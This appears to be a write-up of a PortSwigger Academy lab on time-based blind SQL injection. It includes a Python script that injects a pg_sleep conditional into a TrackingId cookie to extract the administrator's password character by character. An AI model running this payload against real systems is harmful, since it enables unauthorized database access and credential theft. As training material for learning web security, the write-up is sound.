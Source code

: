 ```yaml
---
description: >-
  https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval
---
```


# Blind SQL injection with time delays and information retrieval

**Level:** <mark style="color:blue;">**Practitioner**</mark>

<figure><img src="../../../../../.gitbook/assets/BlindSQLinjectionwithtimedelaysandinformationretrieval1.png" alt=""><figcaption></figcaption></figure>

* Now that we know how to detect a time based SQLi, let's retrieve information from it.

<figure><img src="../../../../../.gitbook/assets/BlindSQLinjectionwithtimedelaysandinformationretrieval2.png" alt=""><figcaption></figcaption></figure>

* So here with this query we are saying that if the first character of the password column is "**a"** wait/sleep 5 seconds, if not respond immediately.

Here is another python script to make easier the job:

```python
from pwn import *
import requests, sys, signal, time, string


def def_handler(sig, frame):
	print("\n[!]Exiting...\n")
	sys.exit(1)

#Ctrl+C
signal.signal(signal.SIGINT, def_handler)

main_url = '<URL>'
characters = string.ascii_uppercase + string.ascii_lowercase + string.digits

def makeRequest():

	password=""

	p1 = log.progress("Brute Force")
	p1.status("Starting Brute Force")

	time.sleep(2)

	p2 = log.progress("Password")


	for position in range(1, 21):


		for character in characters:


			cookies = {
				'TrackingId':"VAQbW7S8KrF2htgm'||(select case when substring(password,%d,1)='%s' then pg_sleep(1.5) else pg_sleep(0) end from users where username='administrator')-- -" % (position, character),
				'session':'DgVOSddIEwOwc6JgYeHzcQnAIpsou7rE'
			}

			p1.status(cookies['TrackingId'])

			time_start = time.time()


			r = requests.get(main_url, cookies=cookies)


			time_end = time.time()

			if time_end - time_start > 1.5:
				password += character
				p2.status(password)
				break



if __name__ == '__main__':

	makeRequest()
```

<figure><img src="../../../../../.gitbook/assets/BlindSQLinjectionwithtimedelaysandinformationretrieval3.png" alt=""><figcaption></figcaption></figure>

* Just wait for the password to retrieve.
